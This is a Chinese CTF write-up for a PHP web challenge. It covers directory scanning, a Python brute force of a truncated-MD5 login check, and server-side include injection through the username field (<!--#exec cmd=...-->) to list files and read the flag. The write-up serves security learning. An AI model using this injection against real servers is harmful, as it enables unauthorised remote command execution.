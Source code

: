 ![[Pasted image 20221217203306.png|500]]

---
首页长这样

![[Pasted image 20221217203322.png|600]]

为什么两个框框的`placeholder`都是`username`啊喂==

猜密码没猜中，快进到下一步

---
使用`dirsearch`扫目录

![[Pasted image 20221217205515.png]]
```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```
这个`***`不会是手残把墨水滴💾上造成的吧QwQ

---
先绕过第一个`if`
```python
from hashlib import md5

i = 0
while True:
    if md5(str(i).encode('utf-8')).hexdigest()[:6] == '6d0bc1':
        print(i)
        break
    i = i + 1
```

> 2020666

---
接下来服务端在`public`目录下面写入了一个随机名字的`shtml`文件

`[!] Header error ...`暗示要去看响应头

![[Pasted image 20221217213950.png]]

![[Pasted image 20221217214621.png|700]]

---
然后是`shtml`的[新知识](https://zh.wikipedia.org/zh-cn/%E6%9C%8D%E5%8A%A1%E5%99%A8%E7%AB%AF%E5%86%85%E5%B5%8C)

总之就是可以利用这个
```
<!--#exec cmd="ls -l" -->
```
来执行命令

这里通过`username`注入
```shell
ls
```

![[Pasted image 20221217215146.png|700]]

```shell
ls ..
```

![[Pasted image 20221217215251.png|700]]

```shell
cat ../flag_990c66bf85a09c664f0b6741840499b2
```

![[Pasted image 20221217215409.png|700]]

#Web #PHP #HTTP #Header #RCE #SHTML #HTML #目录扫描 #md5 